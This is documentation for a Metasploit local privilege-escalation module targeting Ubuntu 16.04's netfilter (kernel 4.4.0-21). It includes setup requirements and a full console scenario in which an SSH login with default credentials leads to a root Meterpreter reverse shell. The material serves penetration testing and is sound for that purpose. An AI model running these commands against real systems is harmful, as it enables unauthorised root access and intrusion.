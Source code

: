 ## Notes

Originally this module was written to drop the binary files on the target.  However, metasm wasn't able to compile due to the libc6-dev-i386 requirement, so it was decided to compile on the target.

## Creating A Testing Environment

There are a few requirements for this module to work:

  1. ip_tables.ko has to be loaded (root running iptables -L will do such)
  2. libc6-dev-i386 needs to be installed to compile
  3. shem and sham can not be installed/running

This module has been tested against:

  1. Ubuntu 16.04.1 (sudo apt-get install linux-image-4.4.0-21-generic)

This module *should* work against

  1. Ubuntu 16.04

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/ubuntu_netfilter`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **MAXWAIT**

  The first stage of this priv esc can take ~35seconds to execute.  This is the timer on how long we should wait till we give up on the first stage finishing.  Defaults to 120 (seconds)

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

## Scenarios

### Ubuntu 16.04.1 (with linux-image-4.4.0-21-generic)

Initial Access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set rhosts 127.0.0.1
    rhosts => 127.0.0.1
    msf auxiliary(ssh_login) > set username nagios
    username => nagios
    msf auxiliary(ssh_login) > set password nagios
    password => nagios
    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'nagios:nagios' 'uid=1000(nagios) gid=1000(nagios) groups=1000(nagios),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1001(nagcmd) Linux nagios 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (127.0.0.1:36085 -> 127.0.0.1:22) at 2016-09-16 01:15:34 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Escalate

    msf auxiliary(ssh_login) > use exploit/linux/local/ubuntu_netfilter
    msf exploit(ubuntu_netfilter) > set session 1
    session => 1
    msf exploit(ubuntu_netfilter) > set verbose true
    verbose => true
    msf exploit(ubuntu_netfilter) > exploit
    
    [*] Started reverse TCP handler on 172.20.14.188:4444 
    [*] Checking if libc6-dev-i386 is installed
    [+] libc6-dev-i386 is installed
    [*] Checking if ip_tables.ko is loaded
    [+] ip_tables.ko is loaded
    [*] Checking if shem or sham are installed
    [+] shem and sham not present.
    [*] Writing desc executable to /tmp/452xNomE.c
    [*] Max line length is 65537
    [*] Writing 3484 bytes in 1 chunks of 12068 bytes (octal-encoded), using printf
    [*] Executing /tmp/452xNomE, may take around 35s to finish.  Watching for /tmp/rrOA1xsB to be created.
    [*] Waited 0s so far
    [*] Waited 10s so far
    [*] Waited 20s so far
    [*] Waited 30s so far
    [+] desc finished, env ready.
    [*] Writing payload to /tmp/HbFVMTZM
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Writing pwn executable to /tmp/eRFqvuyG.c
    [*] Max line length is 65537
    [*] Writing 1418 bytes in 1 chunks of 4975 bytes (octal-encoded), using printf
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 172.20.14.188
    [*] Meterpreter session 2 opened (172.20.14.188:4444 -> 172.20.14.188:45114) at 2016-09-16 01:16:52 -0400
    
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0, suid=0, sgid=0
